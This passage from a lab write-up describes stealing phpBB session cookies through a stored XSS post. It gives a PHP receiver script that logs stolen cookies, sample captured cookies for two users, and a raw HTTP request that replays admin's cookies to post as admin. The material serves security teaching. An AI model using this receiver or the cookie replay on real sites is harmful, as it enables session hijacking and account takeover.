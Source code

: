 The only thing left to be done is writing the receiver program. Here we use PHP to write the receiver and save it to ``/var/www/CSRF/Attacker/receiver.php``. The receiver program will record the cookies received in ``cookies.log`` under the same directory.

Code of receiver.php:
```PHP
<?php
$cookies = str_replace('; ' , ";\n", urldecode($_GET['c']));
$txt = date('c')."\n$cookies\n\n";
$fp = fopen('cookies.log','a');
fwrite($fp,$txt);
fclose($fp);
?>
```

Then when a user view this malicious post, he will send his cookies to attacker's server and then the ``receiver.php`` on attacker's server will log the cookies in `cookies.log` in following format:
```
2016-03-26T12:35:28-04:00
phpbb2mysql_data=a:2:{s:11:"autologinid";s:0:"";s:6:"userid";s:1:"4";}; phpbb2mysql_sid=3526a33ffcebcf4a720b3d34c134f796; phpbb2mysql_t=a:5:{i:5;i:1459007089;i:6;i:1459010128;i:1;i:1459008010;i:3;i:1459008014;i:2;i:1459008017;}
```

Let's test it. We login as ``admin`` and ``alice``, then visit the malicious post **_See here_**, then we check the `cookies.log` on attacker's server. We see that both user's cookies are recorded here:
```JavaScript
2016-03-27T04:09:20-04:00
phpbb2mysql_data=a:2:{s:11:"autologinid";s:0:"";s:6:"userid";s:1:"3";};
phpbb2mysql_sid=5b731224c852f7c8ab17716a3e40592c;
phpbb2mysql_t=a:5:{i:5;i:1459007089;i:6;i:1459066160;i:1;i:1459008010;i:3;i:1459008014;i:2;i:1459008017;}

2016-03-27T04:09:29-04:00
phpbb2mysql_data=a:2:{s:11:"autologinid";s:0:"";s:6:"userid";s:1:"2";};
phpbb2mysql_sid=03d5e0d2a0d6a9af2e5c84288ee0e842;
phpbb2mysql_t=a:5:{i:5;i:1459007089;i:6;i:1459066169;i:1;i:1459008010;i:3;i:1459008014;i:2;i:1459008017;}
```
We noticed that in the serialized object, `userid` indicates which user's cookies it is. Here, The first user has `userid=3` and the second has `userid=2`. They are `alice` and `admin` respectively.

### Task 4: Impersonating the Victim using the Stolen Cookies

In this task, instead of writing a program to do impersonation work, we simply use _BurpSuite_ to send request with cookies we harvested in last task. For example, we send a POST request to `posting.php` with cookies of `admin`:
```HTTP
POST /posting.php HTTP/1.1
Host: www.xsslabphpbb.com
Content-Length: 107
Cookie: phpbb2mysql_data=a%3A2%3A%7Bs%3A11%3A%22autologinid%22%3Bs%3A0%3A%22%22%3Bs%3A6%3A%22userid%22%3Bs%3A1%3A%222%22%3B%7D; phpbb2mysql_sid=03d5e0d2a0d6a9af2e5c84288ee0e842
Content-Type: application/x-www-form-urlencoded

subject=I+am+cookie+stealer&mode=newtopic&sid=03d5e0d2a0d6a9af2e5c84288ee0e842&f=1&post=Submit&message=haha
```
By looking at the response HTML, we can see that we have successfully logged in as `admin`. Also, we can check that a new post titled _**I am cookie stealer**_ has been put on board. Here, one thing to notice is that we (attacker) have the same IP address as that used by `admin`. Otherwise this would not work.
